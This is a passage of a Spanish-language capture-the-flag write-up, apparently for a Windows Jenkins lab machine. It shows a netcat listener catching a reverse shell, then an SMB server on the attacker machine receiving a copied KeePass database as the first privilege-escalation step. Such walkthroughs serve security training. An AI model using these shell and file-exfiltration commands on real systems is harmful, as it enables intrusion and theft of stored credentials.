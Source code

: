 Nos debería llegar esta `consola` a nuestro equipo

```
# nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.194.239] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
## Privilege escalation (First Method)

Hay `dos formas` para `escalar privilegios`, la primera es con un archivo de base de datos `.kdbx` de `Keepass`. Lo que vamos a hacer es `transferirnos` este `archivo` a nuestra `máquina`, para ello nos montamos un servidor `smb` en nuestro equipo y `copiamos` el archivo

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

```
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,612,834,304 bytes free

C:\Users\kohsuke\Documents>copy CEH.kdbx \\10.10.16.16\smbFolder\CEH.kdbx         
copy CEH.kdbx \\10.10.16.16\smbFolder\CEH.kdbx
        1 file(s) copied.
```

Para ver el contenido del archivo nos vamos a descargar `KeepassXC` [https://keepass.info/download.html](https://keepass.info/download.html), le vamos a dar permisos de ejecución y vamos a cargar el archivo `.kdbx`. Para abrir el archivo debemos `ejecutar` el `binario` y posteriormente en la parte superior izquierda pulsar en `Database` y luego `Open Database`
